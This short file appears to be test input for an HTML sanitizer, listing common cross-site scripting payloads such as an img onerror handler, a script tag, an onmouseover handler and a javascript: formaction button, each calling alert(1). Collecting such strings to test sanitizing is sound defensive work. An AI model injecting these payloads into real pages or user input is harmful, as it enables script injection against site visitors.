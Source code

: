 # -b-
<b>test</b>test
  <img src=x onerror=alert(1)>
  <script>alert(1)</script>
  <img src=x onmouseover="alert('xxs')">
'';!--"<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
